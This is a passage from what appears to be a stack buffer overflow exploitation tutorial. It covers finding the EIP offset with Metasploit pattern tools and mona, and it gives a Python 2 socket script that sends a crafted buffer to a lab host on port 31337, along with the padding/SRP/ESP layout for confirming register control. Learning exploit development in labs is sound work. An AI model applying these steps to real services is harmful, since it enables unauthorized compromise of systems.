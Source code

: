 
### Step 2 - Discover offset

Discover Offset- Send Large Unique character string to the Application (size determined in Fuzz). Identify position of each Register

Tools: pattern_create.rb & pattern_offset.rb

Create large unique string (length identified in step 1)
```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1024
```

```python
#!/usr/bin/env python2
import socket

RHOST = "192.168.0.207"
RPORT = 31337

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((RHOST, RPORT))

buf = ""
buf += ("INSERT UNIQUE STRING HERE")
buf += "\n"

  s.send('USER test\r\n')   #send junk as username
  s.recv(1024)
  s.send(buf)
  s.send('QUIT\r\n')
  s.close()
```

Find the offset by taking the content of EIP when crashed example below (39654138)
```bash
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 39654138
```

Alternative: 
<div class="codeBordersingle">
!mona findmsp 
</div>


### Step 3 -Confirm Register Positions 

Send Offset minus from length of buffer, triggering the overflow
-` "A"*(offset_srp - len(buf))`

Send the SRP 
-` BBBB `

Send the ESP 
-` CCCC `

Send the Trail 
-` "D"*(buf_totlen - len(buf)) ` 
